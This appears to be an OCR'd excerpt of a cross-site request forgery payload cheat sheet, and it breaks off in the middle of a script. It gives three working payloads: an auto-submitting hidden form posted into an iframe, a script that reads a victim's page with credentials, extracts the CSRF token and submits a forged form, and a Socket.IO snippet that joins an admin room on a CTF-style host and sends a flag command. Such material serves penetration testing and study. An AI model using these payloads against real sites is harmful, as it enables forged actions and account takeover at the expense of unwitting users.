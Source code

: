                   <iframe id="frame2" name="frame2" 
                  sandbox="allow-same-origin allow-scripts allow-forms allow-popups allow-top-navigation"
                  height="600" width="800"></iframe>
                  <body onload="document.forms[0].submit()">
                  <form id="bypass" name"bypass" method="POST" target="frame2" action="http://google.com?param=VALUE" enctype="multipart/form-data">
                    <input type="text" name="username" value="z">
                    <input type="checkbox" name="status" checked="">        
                    <input id="token" type="hidden" name="token" value="0000" />
                    <button type="submit">Submit</button>
                  </form>


# POSTSteal CSRF token with Ajax and send a post with a form

                  <body onload="getData()">

                  <form id="form" action="http://google.com?param=VALUE" method="POST" enctype="multipart/form-data">
                    <input type="hidden" name="username" value="root"/>
                    <input type="hidden" name="status" value="on"/>
                    <input type="hidden" id="findtoken" name="token" value=""/>
                    <input type="submit" value="valider"/>
                  </form>

                  <script>
                  var x = new XMLHttpRequest();
                  function getData() {
                    x.withCredentials = true;
                    x.open("GET","http://google.com?param=VALUE",true);
                    x.send(null); 
                  }
                  x.onreadystatechange = function() {
                    if (x.readyState == XMLHttpRequest.DONE) {
                      var token = x.responseText.match(/name="token" value="(.+)"/)[1];
                      document.getElementById("findtoken").value = token;
                      document.getElementById("form").submit();
                    }
                  }
                  </script>


# CSRF with Socket.IO

                  <script src="https://cdn.jsdelivr.net/npm/socket.io-client@2/dist/socket.io.js"></script>
                  <script>
                  let socket = io('http://six.jh2i.com:50022/test');

                  const username = 'admin'

                  socket.on('connect', () => {
                      console.log('connected!');
                      socket.emit('join', {
                          room: username
                      });
                    socket.emit('my_room_event', {
                        data: '!flag',
                        room: username
                    })
